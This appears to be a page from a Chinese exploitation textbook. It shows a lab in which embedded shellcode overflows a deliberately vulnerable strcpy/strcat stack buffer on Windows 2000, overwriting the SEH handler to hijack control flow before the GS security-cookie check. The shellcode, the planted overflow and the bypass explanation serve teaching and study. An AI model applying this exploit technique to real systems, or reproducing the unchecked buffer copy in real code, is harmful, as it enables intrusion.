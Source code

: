 ```c++
#include<stdafx.h>
#include<string.h>
charshellcode[]=
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"……"
	"\x90\x90\x90\x90"
	"\xA0\xFE\x12\x00"//address of shellcode
	;
void test(char * input)
{
	char buf[200];
	strcpy(buf,input);
	strcat(buf,input);
}
void main()
{
	test(shellcode);
} 
```
实验环境如表:
- 操作系统 Windows 2000 SP4  
- 编译器 Visual Studio 2005 Windows 2000 高支持 VS2005 
- 编译选项 禁用优化选项  
- build 版本 release 版本  
- 说明：为了不受 SafeSEH 的影响，本次实验需要在 Windows 2000 上进行。此外，shellcode 的起始地址可能需要在 调试中重新确定。

对代码简要解释如下。
（1）函数 test 中存在典型的栈溢出漏洞。
（2）在 strcpy 操作后变量 buf 会被溢出，当字符串足够长的时候程序的 S.E.H 异常处理句柄也会被淹没。
（3）由于 strcpy 的溢出，覆盖了 input 的地址，会造成 strcat 从一个非法地址读取数据，这时会触发异常，程序转入异常处理，这样就可以在程序检查 Security Cookie 前将程序流程劫持。如图 10.4.1 所示。
